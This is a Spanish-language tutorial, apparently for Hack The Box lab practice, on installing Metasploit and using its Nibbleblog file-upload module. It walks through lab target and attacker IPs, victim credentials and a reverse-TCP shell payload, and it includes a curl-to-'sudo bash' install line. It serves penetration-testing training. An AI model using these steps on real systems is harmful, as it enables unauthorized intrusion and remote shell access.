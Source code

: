 # Metasploit Framework - Explotación de Nibbleblog

### Exención de responsabilidad

Este contenido tiene fines educativos y está diseñado para ser utilizado únicamente en entornos controlados y con permisos explícitos.
Hack The Box y otras plataformas similares proporcionan entornos de práctica legalmente autorizados, y se debe asegurar que se cuenta con los permisos adecuados antes de realizar cualquier prueba de penetración o hacking ético.

El autor de esta publicación no se responsabiliza por el uso indebido de las técnicas y herramientas descritas fuera de los entornos legales y éticos correspondientes.

---

## Índice

1. [Usos y consideraciones de Metasploit Framework](#usos-y-consideraciones-de-metasploit-framework)
2. [Descargar Metasploit Framework](#descargar-metasploit-framework)
3. [Uso de Metasploit Framework](#uso-de-metasploit-framework)


## Usos y consideraciones de Metasploit Framework

Metasploit es una herramienta de código abierto utilizada por profesionales de seguridad para probar la robustez de las redes y sistemas mediante la explotación de vulnerabilidades conocidas.

---

### 1. Descargar Metasploit Framework

#### A) Web oficial

https://www.metasploit.com/

	- Acude a la página oficial de la herramienta y descarga la versión 'Open source'.

#### B) En Linux usando terminal 

##### B.1. Instalar dependencias

Primero, asegúrate de tener las dependencias necesarias.
Si estás en Ubuntu/Debian puedes instalar las dependencias con:

```bash
sudo apt update
sudo apt install curl wget git build-essential libssl-dev libpq-dev libreadline-dev libpcap-dev libsqlite3-dev
```

##### B.2. Instalar Metasploit Framework

Puedes instalar Metasploit Framework usando el script de instalación proporcionado por el proyecto rapid7 o desde los repositorios oficiales.

### Método 1: Usar el script de instalación (recomendado) 

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfvenom-installer.sh | sudo bash
```

### Método 2: Usar apt (si está disponible en los repositorios)

```bash 
sudo apt install metasploit-framework
```

### 2. Uso de Metasploit Framework

#### 2.1. Ejecutar Metasploit Framework

```bash
msfconsole
```

Esto debe de abrir la consola interactiva de Metasploit (msfconsole), donde puedes empezar a usar la herramienta.

![Captura de pantalla](./imagenes/msfconsole.png)

#### 2.2. Buscar módulos de exploits

Para buscar exploit disponibles usamos el comando 'search' seguido de la vulnerabilidad/servicio a explotar. Vemos dos ejemplos para Wordpress y Nibbleblog

```bash
search Wordpress
```

```bash
search Nibbleblog
```

![Captura de pantalla](herramientas/metaesploit/imagenes/search.png)

#### 2.3. Seleccionar un exploit

Para usar un exploit específico, primero debes seleccionarlo con el comando `use`
 
```bash
use 0
```

```bash
use exploit/multi/http/nibbleblog_file_upload
```
Dos formas válidas de seleccionar un exploit (el nº 0 hace referencia al índice del exploit, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

![Captura de pantalla](herramientas/metaesploit/imagenes/use.png)

#### 2.4. Ver los parámetros del exploit

Cuando seleccionas un exploit, tienes que ver los parámetros necesarios (como la dirección IP de la víctima, puertos, etc.) con `show options`:

##### 2.4.1 Parámetros del Exploit

- **RHOST**: Dirección IP del objetivo.
- **LHOST**: Dirección IP de la máquina atacante (tu propia máquina).
- **LPORT**: Puerto de escucha para la conexión reversa.
- **targeturi**: Especifica la ruta del servicio web que vamos a explotar, en este caso, `nibbleblog` (por defecto o nombre de directorio).


```bash
show options
```

![Captura de pantalla](herramientas/metaesploit/imagenes/show_options.png)
	
#### 2.5. Configurar los parámetros del exploit

Configuramos cada parametro que este marcado como 'yes' con el comando `set`

Establecemos la opción 'rhosts' como la dirección IP de destino (IP víctima)

```bash
set RHOST 10.129.126.4
```

Establecemos la opción 'lhosts' como la dirección IP atacante (en HTB usar la IP tun0 propia de la VPN)

```bash
set LHOST 10.10.12.4
```

Establecemos la opción 'username' con el nombre de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set username admin
```

Establecemos la opción 'password' con la contraseña de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set password <contraseña_de_usuario>
```

[!] Cambiar <contraseña_de_usuario> por la correcta de Nibbleblog (para este caso)

Establecemos la opción 'targeturi' con el nombre del servicio a explotar

```bash
set targeturi nibbleblog
```

Una vez, configuradas las distintas opciones señaladas como necesarias (como 'yes') podemos comprobar los cambios usando de nuevo `show options`

#### 2.6. Configurar parámetros de payload (o carga útil)

Cada exploit requiere de un payload, para ver los disponibles podemos usar el comando `show payloads`
 
```bash
show payloads
```

![Captura de pantalla](herramientas/metaesploit/imagenes/show_payloads.png)

#### 2.7. Seleccionar un payload

Para usar un payload específico, primero debes seleccionarlo con el comando `use`
 
```bash
use payload 4
```

```bash
use payload generic/shell_reverse_tcp
```
Dos formas válidas de seleccionar un payload (el nº 4 hace referencia al índice del payload, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

Puedes ver la información sobre el payload con el comando `info`

```bash
info generic/shell_reverse_tcp
```

[!] Importante revisar de nuevo `show options` para verificar la configuración

#### 2.8. Ejecutar exploit

Para ejecutar el exploit seleccionado y configurado podemos usar los comandos `run` o `exploit`
 
```bash
run
```

```bash
exploit
```

Despues de ejecutar el exploit, deberíamos de obtener (para este caso) una shell reversa. A partir de aquí sería continuar con la explotación en el grado que se requiera (por ejemplo elevando privilegios)

## Consideraciones Éticas y Legales

Esta documentación se proporciona **exclusivamente con fines educativos**.
Las técnicas y procedimientos descritos están diseñados para ser aplicados en **entornos controlados**, como laboratorios personales o plataformas de formación como Hack The Box.

⚠ **IMPORTANTE:**  
El uso indebido de estos conocimientos en sistemas sin autorización constituye una violación de la ley y puede acarrear consecuencias legales graves.  
Antes de realizar cualquier prueba de seguridad, asegúrate de contar con el **consentimiento expreso** del propietario del sistema.

### Asegúrate de:
- Realizar pruebas solo en máquinas y entornos de **pruebas de penetración legal**.
- Nunca realizar pruebas en sistemas sin tener **permiso explícito** para hacerlo.

Para más información sobre prácticas de hacking ético, puedes revisar los términos y condiciones de Hack The Box en:  
🔗 [https://www.hackthebox.com/terms](https://www.hackthebox.com/terms)  
